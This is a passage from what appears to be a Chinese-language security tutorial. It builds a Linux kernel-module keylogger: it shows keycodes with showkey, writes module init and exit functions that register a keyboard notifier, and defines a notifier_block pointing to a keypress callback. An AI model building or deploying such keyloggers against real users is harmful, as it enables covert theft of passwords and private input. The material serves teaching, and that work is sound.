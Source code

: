 一种有趣且互动的方式来查看映射是打开终端，运行`**showkey**`命令，打开另一个应用程序如 Mousepad，然后开始输入。`showkey`命令应该会显示你按下的每个键的键码：

```
kali@kali:~$ sudo showkey --keycode
press any key (program terminates 10s after last keypress)...
keycode  28 release
keycode   2 press
keycode   2 release
keycode  35 press
keycode  35 release
keycode  48 press
keycode  48 release
```

你可能已经注意到，这些值大致按照“qwerty”键盘布局的顺序排列。由于实际键盘布局因地区和偏好而异，键盘映射将键码转换为特定的 ASCII 字符。将此键盘映射定义放在你的*keylogger.c*文件的顶部。

该模块中的`__init`和`__exit`方法非常简短。它们分别仅注册和注销一个键盘`notifier_block`结构。你可能还注意到，在这个模块中，`__init`和`__exit`方法的名字与本章中我们创建的模块不同；即，使用的是`start`和`end`而不是`startup`和`shutdown`——这些名字是任意的：

```
static int __init start(void)

{

   register_keyboard_notifier(&nb);

   printk(KERN_INFO "Keyboard Module Loaded!\n");

   return 0;

}
static void __exit end(void)

{

   unregister_keyboard_notifier(&nb);

   printk(KERN_INFO "Module Unloaded!\n");

}
```

接下来，为了在用户按下一个键时得到通知，我们必须为键盘`notifier_block`结构的一个属性指定一个值。这个结构是内核提供的 API 机制，使模块可以访问一些键盘功能。我们在这里的模块顶部定义它：

```
static struct notifier_block nb = {

 ➊.notifier_call =  ➋ notify_keypress

};
```

指定预定义结构体的值，如我们在这里所做的，是在 Linux 内核编程中常见的模式。如果你查看 Linux *notifier.h*源文件中完整的`notifier_block`结构体定义，你会注意到它指定了比我们定义的更多的属性。然而，在模块（如我们的模块）设置这些值之前，它们都被设置为`NULL`。在这里，我们通过提供函数指针`notify_keypress` ➋，为`notifier_call`属性 ➊指定了一个值。现在，每当用户按下一个键时，我们的函数就会被调用。
